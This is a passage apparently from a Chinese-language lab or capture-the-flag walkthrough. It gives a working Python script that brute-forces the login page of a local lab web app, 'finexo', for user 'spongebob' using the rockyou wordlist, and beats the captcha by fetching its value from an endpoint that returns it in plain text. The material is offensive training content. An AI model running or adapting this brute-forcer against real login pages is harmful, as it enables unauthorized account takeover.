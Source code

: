 通过写脚本分别请求来进行爆破的话

```
import requests

captcha_url = 'http://192.168.56.132/finexo/login.php?action=generateCaptcha'
login_url = 'http://192.168.56.132/finexo/login.php'

# 创建会话对象
session = requests.Session()

cnt =0
with open('/usr/share/wordlists/rockyou_utf_8.txt', 'r') as f:
    for password in f.readlines():

        # 获取验证码
        captcha = session.get(captcha_url).text

        password = password.strip()  # 去除密码两端的空白字符

        data={
            'username':'spongebob',
            'password':f'{password}',
            'captcha': captcha
        }

        # 使用会话对象发送POST请求进行登录
        try_login = session.post(login_url, data=data)
        cnt +=1
        # 输出登录结果
        print(f"Attempting with password: {password} {cnt}")

        # 检查是否登录成功，假设返回的文本包含某个成功标志
        if "successful" in try_login.text:
            print(f"Login successful with password: {password}")
            break
```

![](./images/image-363.png)
